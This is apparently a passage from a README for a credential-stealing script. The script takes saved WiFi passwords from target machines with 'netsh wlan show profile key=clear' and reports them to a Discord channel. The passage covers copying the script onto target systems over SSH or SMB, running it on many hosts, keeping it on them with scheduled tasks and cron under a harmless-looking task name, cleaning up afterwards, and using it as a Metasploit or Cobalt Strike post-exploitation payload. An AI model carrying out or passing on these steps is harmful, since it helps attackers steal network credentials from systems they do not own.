 ### Direct Execution Method

#### Local Execution
1. Copy script to target system
2. Ensure Python and dependencies are installed
3. Run script with appropriate permissions
4. Monitor Discord channel for results

#### Remote Execution
1. Upload script to target system via SSH/SMB
2. Execute remotely using SSH or remote management tools
3. Monitor Discord channel for results
4. Clean up script after execution

### Advanced Usage Scenarios

#### Batch Processing
```bash
# Execute on multiple systems
for system in system1 system2 system3; do
    ssh user@$system "python main.py"
done
```

#### Scheduled Execution
```bash
# Windows Task Scheduler
schtasks /create /tn "WiFi Audit" /tr "python main.py" /sc daily /st 09:00

# Linux Cron
0 9 * * * /usr/bin/python3 /path/to/main.py
```

#### Integration with Other Tools
- **Metasploit**: Execute as payload or post-exploitation module
- **Cobalt Strike**: Integrate with beacon or post-exploitation tools
- **Custom Scripts**: Use as component in larger security frameworks

## Technical Details

### Windows Implementation

#### WiFi Profile Extraction
```bash
# Command used for profile listing
netsh wlan show profile

# Command used for password extraction
netsh wlan show profile "PROFILE_NAME" key=clear
```
